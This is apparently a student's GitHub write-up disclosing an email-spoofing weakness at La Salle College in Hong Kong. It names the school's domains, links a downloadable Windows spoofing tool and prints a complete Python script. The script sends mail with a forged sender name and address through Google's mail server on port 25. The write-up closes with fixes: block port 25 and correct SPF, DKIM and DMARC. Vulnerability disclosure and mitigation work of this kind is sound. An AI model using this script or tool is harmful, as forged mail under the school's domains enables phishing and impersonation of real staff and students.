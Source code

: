 > [!CAUTION]
> If anyone uses the following materials to do things that are either illegal or violating school rules (e.g. Breaching School Security), Lee Perseus Robin will not pay ANY responsibility to that.
## What is the Vulnerability?
The vulnerability is at the schools email system, as La Salle College is using a "No Authorization" SMTP server (aspmx.l.google.com);
With the school WiFi, anyone can easily write an email from any valid email address under [lsc.hk](http://lsc.hk/) or [lasalle.edu.hk](http://lasalle.edu.hk/) and send it to anyone.
## What can the Vulnerability acheive?
As illustrated above, the exploit allows attackers to spoof any email address under the domain [lsc.hk](http://lsc.hk/) and [lasalle.edu.hk](http://lasalle.edu.hk/), e.g. [test@lsc.hk](mailto:test@lsc.hk).
## How to execute the Vulnerability?
Windows Version: [Sendemail (Only in LSC, beta).zip](https://github.com/user-attachments/files/17656203/Sendemail.Only.in.LSC.beta.zip)

Python Version (Demonstration only):
```
import smtplib
from email.mime.text import MIMEText

username = "test@lasalle.edu.hk"

fake_from = input("Enter the email address which you would like to pretent: ")

fake_name = input("Enter the name which you would like to pretent: ")

to_email = input("Enter the email address of the recipient: ")

to_name = input("Enter the name of the recipient: ")

subject = input("Subject of email: ")

# Replace '\n' with actual line breaks in HTML
content = input("Content of email (use '\\n' for line breaks): ").replace('\\n', '<br>')

# Create the HTML message
message = MIMEText(content, 'html')
message['From'] = f"{fake_name} <{fake_from}>"
message['To'] = f"{to_name} <{to_email}>"
message['Subject'] = subject

# Connect to the server and send the email
server = smtplib.SMTP("aspmx.l.google.com", 25)
server.starttls()
server.sendmail(username, to_email, message.as_string())
server.close()
```
## Who discovered the Vulnerability?
The flaw is found by Lee Perseus Robin (2G - 16) and others improved his Python code to support new lines.

## How to fix the Vulnerability?
To temporarily mitigate these types of attacks, the school can implement the following measures:
1. Blocking Port 25 on all networks
2. Fix the SPF, DKIM and DMARC issues in the DNS system of the school's domain(s).
For a permanent solution, I recommend consulting a penetration tester to conduct a comprehensive security assessment of the school's systems.

## How to contact us to get more information about the Vulnerability?
If you have any questions or require further information, please feel free to reach out to me at [perseus@lscstudy.us.kg](mailto:perseus@lscstudy.us.kg), [s23218@lsc.hk](mailto:s23218@lsc.hk) or perseusrobin@gmail.com.

### Examples:
![image](https://github.com/user-attachments/assets/228cc297-306e-48c1-a93f-76f8e8ba4c56)